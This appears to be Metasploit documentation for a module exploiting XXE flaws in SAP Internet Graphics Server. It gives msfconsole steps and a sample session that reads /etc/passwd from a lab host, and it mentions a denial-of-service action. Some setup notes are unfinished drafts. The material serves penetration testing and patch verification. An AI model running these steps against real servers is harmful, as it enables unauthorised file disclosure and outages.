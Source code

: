 ## Vulnerable Application
This module exploits two vulnerabilities, CVE-2018-2392 and CVE-2018-2393, within version 7.20, 7.20EXT, 7.45, 7.49,
and 7.53 of SAP Internet Graphics Server (IGS). Both of these vulnerabilities occur due a lack of validation on XML
External Entities when XML files are uploaded via the /XMLCHART page. Unauthenticated remote attackers can exploit
this vulnerability to either read files from the server's file system as the XXX user, or conduct a denial of service
attack against the vulnerable SAP IGS server.

### Application Background
The Internet Graphics Service (IGS) provides infrastructure to enable developers to display graphics
in an internet browser with minimal effort. It has been integrated in several different SAP UI technologies
where is provides a say for data from another SAP system or data source to be utilized to generate
dynamic graphical or non-graphical output.

### Install steps
1. Register for an account at https://accounts.sap.com/ui/public/showRegisterForm?spName=profile.people.sap.com&targetUrl=&sourceUrl=
2. Click on the link in the email that will be sent to activate your account.
3. Browse to http://service.sap.com/swdc. Accept the legal reguirements.
4. XXXX ??? At this point I couldn't download any software as none of the download pages are accessible.
   I think you need a paid subscription to access them.

XXX - Need to add setup instruction here....
SAP IGS versions: 7.20, 7.20EXT, 7.45, 7.49, 7.53 are affected by this vulnerability.
Installing and Updating the IGS [instructions][2].
Configuring the IGS [instructions][3].
Administering the IGS [instructions][4].

Once set up and configured, the instances will be vulnerable on the default HTTP port 40080.

## Verification Steps

  1. Start msfconsole
  1. Do: `workspace [WORKSPACE]`
  1. Do: `use auxiliary/admin/sap/sap_igs_xmlchart_xxe`
  1. Do: `set RHOSTS [IP]`
  1. Do: `set FILE [remote file name]`
  1. Do: `set SHOW [true|false]`
  1. Do: `set action READ`
  1. Do: `check`
  1. Do: `run`
  1. Verify that the contents of the file you specified were returned.

## Options

### FILE

File to read from the remote server. Example: `/etc/passwd`

### PATH

This is the URL of the XMLCHART page on the SAP IGS server that is vulnerable to XXE.
By default it is set to `/XMLCHART`, however it can be changed if the SAP IGS server
was installed under a different path than the web root. For example if the SAP IGS
server was installed to the `/igs/` path under the web root, then this value would be
set to `/igs/XMLCHART`.

## Actions
```
   Name  Description
   ----  -----------
   READ  Remote file read
   DOS   Denial Of Service
```

## Scenarios

### Vulnerable SAP IGS release: 7.45 running on SUSE Linux Enterprise Server for SAP Applications 12 SP1

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use auxiliary/admin/sap/sap_igs_xmlchart_xxe
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set RHOSTS 10.10.10.10
RHOSTS => 10.10.10.10
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set FILE /etc/passwd
FILE => /etc/passwd
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set action READ
action => READ
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set Proxies http:127.0.0.1:8080
Proxies => http:127.0.0.1:8080
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > options

Module options (auxiliary/admin/sap/sap_igs_xmlchart_xxe):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   FILE     /etc/passwd          yes       File to read from the remote server
   Proxies  http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.10.10.10          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    40080                yes       The target port (TCP)
   SHOW     true                 no        Show remote file content
   SSL      false                no        Negotiate SSL/TLS for outgoing connections
   PATH     /XMLCHART            no        SAP IGS XMLCHART PATH
   VHOST                         no        HTTP server virtual host


Auxiliary action:

   Name  Description
   ----  -----------
   READ  Remote file read


msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > check
[+] 10.10.10.10:40080 - The target is vulnerable. OS info: SUSE Linux Enterprise Server for SAP Applications 12 SP1
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > run
[*] Running module against 10.10.10.10

[+] File: /etc/passwd content from host: 10.10.10.10
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/bin/bash
daemon:x:2:2:Daemon:/sbin:/bin/bash
lp:x:4:7:Printing daemon:/var/spool/lpd:/bin/bash
mail:x:8:12:Mailer daemon:/var/spool/clientmqueue:/bin/false
news:x:9:13:News system:/etc/news:/bin/bash
uucp:x:10:14:Unix-to-Unix CoPy system:/etc/uucp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
man:x:13:62:Manual pages viewer:/var/cache/man:/bin/bash
wwwrun:x:30:8:WWW daemon apache:/var/lib/wwwrun:/bin/false
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
nobody:x:65534:65533:nobody:/var/lib/nobody:/bin/bash
messagebus:x:499:499:User for D-Bus:/var/run/dbus:/bin/false
sshd:x:498:498:SSH daemon:/var/lib/sshd:/bin/false
polkitd:x:497:496:User for polkitd:/var/lib/polkit:/sbin/nologin
nscd:x:496:495:User for nscd:/run/nscd:/sbin/nologin
rpc:x:495:65534:user for rpcbind:/var/lib/empty:/sbin/nologin
openslp:x:494:2:openslp daemon:/var/lib/empty:/sbin/nologin
uuidd:x:493:492:User for uuidd:/var/run/uuidd:/bin/bash
usbmux:x:492:65534:usbmuxd daemon:/var/lib/usbmuxd:/sbin/nologin
ntp:x:74:491:NTP daemon:/var/lib/ntp:/bin/false
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
vnc:x:491:490:user for VNC:/var/lib/empty:/sbin/nologin
rtkit:x:490:489:RealtimeKit:/proc:/bin/false
pulse:x:489:488:PulseAudio daemon:/var/lib/pulseaudio:/sbin/nologin
statd:x:488:65534:NFS statd daemon:/var/lib/nfs:/sbin/nologin
ftpsecure:x:487:65534:Secure FTP User:/var/lib/empty:/bin/false
postfix:x:51:51:Postfix Daemon:/var/spool/postfix:/bin/false
scard:x:486:485:Smart Card Reader:/var/run/pcscd:/usr/sbin/nologin
gdm:x:485:483:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
erpadm:x:1001:1001:SAP System Administrator:/home/erpadm:/bin/csh
sapadm:x:1002:1001:SAP System Administrator:/home/sapadm:/bin/false

[+] File: /etc/passwd saved in: /Users/vladimir/.msf4/loot/20200929135102_SAP_TEST_10.10.10.10_sap.igs.xxe_302025.txt
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > services
Services
========

host         port   proto  name  state  info
----         ----   -----  ----  -----  ----
10.10.10.10  40080  tcp    http  open   SAP Internet Graphics Server (IGS); OS info: SUSE Linux Enterprise Server for SAP Applications 12 SP1

msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > vulns

Vulnerabilities
===============

Timestamp                Host         Name                                    References
---------                ----         ----                                    ----------
2020-09-29 10:51:01 UTC  10.10.10.10  SAP Internet Graphics Server (IGS) XXE  CVE-2018-2392,CVE-2018-2393,URL-https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf

msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > loot

Loot
====

host         service  type         name         content     info         path
----         -------  ----         ----         -------     ----         ----
10.10.10.10           sap.igs.xxe  /etc/passwd  text/plain  SAP IGS XXE  /Users/vladimir/.msf4/loot/20200929135102_SAP_TEST_10.10.10.10_sap.igs.xxe_302025.txt

```

[1]: https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf
[2]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193dbeb5c617e2e10000000a42189b.html
[3]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e1939c9b5c617e2e10000000a42189b.html
[4]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193988b5c617e2e10000000a42189b.html
